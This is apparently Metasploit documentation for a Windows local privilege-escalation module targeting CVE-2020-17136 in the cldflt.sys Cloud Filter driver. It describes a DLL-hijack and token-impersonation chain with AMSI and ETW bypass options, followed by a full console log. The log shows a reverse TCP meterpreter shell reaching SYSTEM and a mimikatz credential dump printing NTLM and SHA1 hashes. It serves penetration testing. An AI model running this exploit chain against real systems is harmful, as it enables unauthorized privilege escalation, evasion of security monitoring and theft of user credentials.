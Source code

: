## Vulnerable Application
The Cloud Filter driver, `cldflt.sys`, on Windows 10 v1803 and later, prior to the December 2020 updates,
did not set the `IO_FORCE_ACCESS_CHECK` and `OBJ_FORCE_ACCESS_CHECK` flags when calling
`FltCreateFileEx()` and `FltCreateFileEx2()` within its `HsmpOpCreatePlaceholders()` function with attacker
controlled input. This meant that files were created with `KernelMode` permissions, thereby bypassing any
security checks that would otherwise prevent a normal user from being able to create files in directories
they don't have permissions to create files in.

This module abuses this vulnerability to perform a DLL hijacking attack against the Microsoft Storage
Spaces SMP service, which grants the attacker code execution as the `NETWORK SERVICE` user. The module
then uses RPCSS named pipe impersonation to obtain a `SYSTEM` token and assign it to the current process,
thereby allowing the attacker to execute arbitrary code as the `SYSTEM` user.

### Installation And Setup
`cldflt.sys` should exist by default on all versions of Windows 10 v1803 and later.

## Verification Steps
  1. Start msfconsole
  2. Get a meterpreter shell as a low privileged user.
  3. **Verify** that `getsystem` does not get you a `SYSTEM` shell.
  4. `use exploit/windows/local/cve_2020_17136`
  5. `set session *session id*`
  6. `run`
  7. **Verify** that you get a new shell as the `SYSTEM` user

## Options

### AMSIBYPASS
Enable or disable ASMI bypass.

### ETWBYPASS
Enable or disable ETW bypass.

### WAIT
Time in seconds to wait before starting to read the text output from the injected C# exe.

## Scenarios

### Windows 10 2004 x64 - Build 19041.630 with cldflt.sys version 10.0.19041.488

```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.22.152.177:4444
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.22.152.177:4444) at 2021-01-06 01:26:51 -0600

meterpreter > getuid
Server username: DESKTOP-KUO5CML\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getsystem
[-] 2001: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_17136
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_17136) > show options

Module options (exploit/windows/local/cve_2020_17136):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AMSIBYPASS      true             yes       Enable Amsi bypass
   ETWBYPASS       true             yes       Enable Etw bypass
   SESSION                          yes       The session to run this module on.
   WAIT            5                no        Time in seconds to wait


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf6 exploit(windows/local/cve_2020_17136) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2020_17136) > set LHOST 172.22.159.28
LHOST => 172.22.159.28
msf6 exploit(windows/local/cve_2020_17136) > set LPORT 6688
LPORT => 6688
msf6 exploit(windows/local/cve_2020_17136) > run

[*] Started reverse TCP handler on 172.22.159.28:6688
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. A vulnerable Windows 10 20H1 build was detected!
[*] Dropping payload dll at C:\Windows\Temp\WsutUtXDcIsPqEKn.dll and registering it for cleanup...
[*] Running module against DESKTOP-KUO5CML
[*] Launching notepad.exe to host CLR...
[+] Process 7784 launched.
[*] Reflectively injecting the Host DLL into 7784..
[*] Injecting Host into 7784...
[*] Host injected. Copy assembly into 7784...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Key: 1821285265184
[+] Done
[*] End output.
[+] Execution finished.
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 2 opened (172.22.159.28:6688 -> 172.22.152.177:62867) at 2021-01-06 01:28:26 -0600
[*] Session ID 2 (172.22.159.28:6688 -> 172.22.152.177:62867) processing AutoRunScript 'post/windows/escalate/getsystem'
[+] Obtained SYSTEM via technique 4

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > load kiwi
Loading extension kiwi...cre
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-KUO5CML  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-KUO5CML  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-KUO5CML$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-kuo5cml$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)


meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/cve_2020_17136) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-KUO5CML\normal @ DESKTOP-KUO5CML  0.0.0.0:0 -> 172.22.152.177:4444 (172.22.152.177)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-KUO5CML     172.22.159.28:6688 -> 172.22.152.177:62867 (172.22.152.177)

msf6 exploit(windows/local/cve_2020_17136) >
```
